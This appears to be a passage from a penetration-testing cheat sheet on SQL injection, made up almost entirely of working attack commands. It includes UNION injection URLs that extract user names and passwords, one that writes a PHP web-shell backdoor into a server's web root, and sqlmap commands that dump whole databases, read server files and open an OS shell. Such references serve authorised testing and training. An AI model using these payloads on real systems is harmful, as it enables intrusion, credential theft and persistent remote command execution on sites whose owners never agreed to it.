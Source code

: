         `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'`

        Extract the name and password

        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users`

        Create a backdoor

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'`

    *   **SQLMap Examples**

    *   Crawl the links

        `sqlmap -u http://$ip --crawl=1`

        `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`

    *   SQLMap Search for databases against a suspected GET SQL Injection

        `sqlmap –u http://$ip/blog/index.php?search –dbs`

    *   SQLMap dump tables from database oscommerce at GET SQL injection

        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps`

    *   SQLMap GET Parameter command

        `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5`

    *   SQLMap Post Username parameter

        `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`

    *   SQL Map OS Shell

        `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell`

        `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`

    *   Automated sqlmap scan

        `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"`

    *   Targeted sqlmap scan

        `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`

    *   Scan url for union + error based injection with mysql backend and use a random user agent + database dump

        `sqlmap -o -u http://$ip/index.php --forms --dbs`

        `sqlmap -o -u "http://$ip/form/" --forms`

    *   Sqlmap check form for injection

        `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`
